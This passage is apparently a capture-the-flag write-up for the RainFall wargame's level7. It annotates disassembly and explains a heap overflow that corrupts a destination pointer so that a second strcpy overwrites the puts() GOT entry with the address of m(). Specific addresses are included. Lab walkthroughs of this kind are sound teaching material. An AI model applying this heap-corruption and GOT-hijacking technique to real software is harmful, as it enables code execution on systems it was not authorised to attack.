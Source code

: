 **Second Vulnerability Chain:**
- **Uses data2->buffer as destination** - but this pointer may be corrupted!
- **If first overflow corrupted data2->buffer**: Second strcpy writes to arbitrary address
- **Attack vector**: Control where argv[2] gets written by corrupting the destination pointer

### 9. Final Program Operations
```bash
   # File operations (read flag data)
   0x080485c2 <+161>:   mov    $0x80486e9,%edx   # filename  
   0x080485c7 <+166>:   mov    $0x80486eb,%eax   # mode "r"
   0x080485cc <+171>:   mov    %edx,0x4(%esp)
   0x080485d0 <+175>:   mov    %eax,(%esp)
   0x080485d3 <+178>:   call   0x8048430 <fopen@plt>    # fopen()
   0x080485d8 <+183>:   mov    %eax,0x8(%esp)
   0x080485dc <+187>:   movl   $0x44,0x4(%esp)   # 68 bytes
   0x080485e4 <+195>:   movl   $0x8049960,(%esp)  # global buffer
   0x080485eb <+202>:   call   0x80483c0 <fgets@plt>    # fgets(global_buf, 68, file)

   # Final output - HIJACK TARGET!
   0x080485f0 <+207>:   movl   $0x8048703,(%esp)  # "~~" string
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>     # puts("~~") ← HIJACK THIS!
```

**Program End Analysis:**
- **File operations**: Reads 68 bytes into global buffer 0x8049960 (contains flag data!)
- **puts("~~") call**: Final output - this is our hijack target
- **Strategy**: Redirect puts() to call m() instead, which will print the flag data

## The Exploitation Strategy - Indirect GOT Hijacking

### 10. Understanding the Attack Chain
```
Step 1: Heap Structure Corruption
First strcpy overflows buffer1 → corrupts data2->buffer pointer

Step 2: Pointer Redirection
Change data2->buffer from pointing to buffer2 → to pointing at puts() GOT entry

Step 3: GOT Overwrite  
Second strcpy writes argv[2] to puts() GOT entry → overwrites puts address

Step 4: Function Hijacking
puts("~~") call → jumps to m() function → prints flag with timestamp
```

### 11. Finding the GOT Entry for puts()
```bash
level7@RainFall:~$ objdump -R level7 | grep puts
08049928 R_386_JUMP_SLOT   puts
```

**GOT Entry Discovery:**
- **puts() GOT address**: `0x08049928`
- **Target**: Overwrite this address with `0x080484f4` (address of m())
- **Method**: Corrupt data2->buffer to point here, then use second strcpy
